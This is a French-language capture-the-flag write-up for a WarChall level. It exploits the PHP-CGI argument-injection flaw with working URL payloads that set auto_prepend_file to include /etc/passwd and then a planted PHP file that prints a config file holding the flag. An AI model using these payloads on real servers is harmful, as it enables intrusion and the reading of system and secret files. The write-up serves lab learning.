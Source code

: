 # Live - RCE
"Live RCE" fait référence à une "Remote Code Execution" (exécution de code à distance) en direct

## Objectif

Imprime le contenu de `/home/level/20_live_rce/config.php` 

## Solution du Challenge

La première chose utile que j'ai faite a été de tomber sur une vulnérabilité PHP-CGI sur Google. J'ai rapidement découvert qu'une bonne façon de tester cette vulnérabilité était d'utiliser :

>`
http://rce.warchall.net/?-s
`

et de vérifier si le code source est affiché. C'était le cas ! Maintenant, je sais que je dois voir ce qu'il y a dans `/home/level/20_live_rce/config.php`. Maintenant, je savais sur quoi chercher sur Google. Après un certain temps, j'ai trouvé ce vecteur d'attaque. Il est censé me permettre d'inclure un fichier à distance ou local. En faisant :

>`
https://rce.warchall.net/index.php?-dsafe_mode=Off+-ddisable_functions=NULL+-dallow_url_fopen=On+-dallow_url_include=On+-dauto_prepend_file=http:://google.com/robots.txt
`

cela n'a pas fonctionné, mais ceci a marché :

>`
https://rce.warchall.net/index.php?-dsafe_mode%3dOff+-ddisable_functions%3dNULL+-dallow_url_fopen%3dOn+-dallow_url_include%3dOn+-dauto_prepend_file%3d/etc/passwd
`

Ensuite, je savais que j'avais accès à SSH et je pouvais mettre un script PHP de base dans un fichier à :

```plaintext
/var/tmp/rce.txt
```

Code PHP basique pour /var/tmp/s.txt :

```php
<?php
echo file_get_contents("/home/level/20_live_rce/config.php");
```

Ensuite, je savais que je devais exécuter :

>`
https://rce.warchall.net/index.php?-dsafe_mode%3dOff+-ddisable_functions%3dNULL+-dallow_url_fopen%3dOn+-dallow_url_include%3dOn+-dauto_prepend_file%3d/var/tmp/rce.txt
`

À première vue, cela n'a pas fonctionné. Rien d'autre que le contenu de index.php n'était affiché dans le navigateur. Puis, je me suis souvenu que si cela réussissait, cela imprimerait quelque chose comme :

```php
<?php
// whatever
?>
```

>Cela ne peut être vu que si vous affichez le code source. Bingo. C'était là


J'ai testé le mot que j'ai vu dans le code source comme le drapeau et il a dit que le défi était résolu.

